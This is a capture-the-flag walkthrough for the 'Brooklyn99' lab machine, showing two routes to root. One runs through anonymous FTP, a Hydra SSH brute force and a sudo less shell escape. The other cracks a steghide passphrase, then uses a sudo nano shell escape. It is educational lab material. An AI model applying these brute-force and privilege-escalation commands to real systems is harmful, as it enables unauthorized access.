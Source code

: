 # Brooklyn99 CTF
export ip=10.10.15.26
## Enumeration
Going to the site and cheching the html we can see this 
```html 
<!-- Have you ever heard of steganography? -->
```
**Intersting**   
We are told there is 2 ways of getting to root in thi mahcine. Lets check both 
------------
# Method one
### Nmap scan 
```bash
└─# nmap 10.10.15.26 -T5   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-26 07:33 EST
Nmap scan report for 10.10.15.26
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
````
### FTP 
I didnt check if FTP has **Anonymous** login enabled but tried it and we can 

navigathing  through we found this file
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
```
this will download the text file to your machine. (you can also use mget command)
This is the note thats left 

>From Amy,

>Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

This might come in handy knowing jake ```"Detective Jake Peralta(holts voice)"``` uses weak password :).

**``Username : jake``**
lets brut force

### Hydra
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt  10.10.15.26  ssh -t 4
```  
we used **jake** as the user and used argument **-P** to specify our world list with out IP and port we are attacking which is **ssh** 
``` bash
host: 10.10.15.26   login: jake   password: 987654321
```  
Oh dear jake u failed us hope this wont let me in .  
```ssh jake@'ur_ip_here'```  
And we are in. Oh Jake Peralta Amy would be dissapointed   

## Privilege Escalation
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ 
```
intersting jake can run /usr/bin/less as sudo. Lets go to [gtfobins.github.io](gtfobins) to check how we can privilege escalate our way.   
By searching less we found a way to escalte. We can run less binary as a superuser. we can spawn a shell with higher privilage 
```sudo less /etc/profile ```
```!/bin/sh```


```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
```
>-- Creator : Fsociety2006 --
>Congratulations in rooting Brooklyn Nine Nine
>Here is the flag: 63a9f0ea*********96b649e85481845
>
>Enjoy!!

### Forgot the user flag but here it is 
----------------
# Method 2
## Steganography
[https://0xrick.github.io/lists/stego](0xrick) Has good resources on Steganography tools to use.  
Lets explore some  
```bash
└─# exiftool brooklyn99.jpg 
ExifTool Version Number         : 12.39
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 68 KiB
File Modification Date/Time     : 2020:05:26 05:01:39-04:00
File Access Date/Time           : 2022:02:26 05:38:36-05:00
File Inode Change Date/Time     : 2022:02:26 05:35:43-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
````
THis is the exiftool you can run more enumration using other toolds like **file** and **string**  
Running string returned lot of strings inside. Maybe we can check those. But an intersting thing to notice is when we tried to check if there is anyting inside the image using **steghide** it asks for a password. So lets run **stegcracker** to crack the password with common passwords.  


```bash
└─# stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 

Tried 20203 passwords
Your file has been written to: brooklyn99.jpg.out
**** //<= password

```` 
lets now go and extract the file inside the image.
```bash
└─# steghide extract -sf brooklyn99.jpg                        
Enter passphrase: 
wrote extracted data to "note.txt".
 ```
This is the note that is extracted
>Holts Password:
>**********@ninenine

>Enjoy!!

We got holts password. using hold as user name and the password we found we are in
```bash
└─# ssh holt@10.10.45.249
holt@brookly_nine_nine:~$ whoami
holt
```
## Privilege Escalation
Captain Ray Holt is can run **/bin/nano** binary as sudo . **Intersting**   
Going to gtfobin we found this
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
lets run it 


```bash
holt@brookly_nine_nine:~$ sudo nano

````
this will take us to nano Clicking control R and control x will enable us to execute system commands ruuning 
```reset; sh 1>&0 2>&0``` will give us shell as root

### Proof of concept 
```bash

Command to execute: reset; sh 1>&0 2>&0#                                                                            
# whoami
root
# 
````

We have found both ways to root the box. 
--------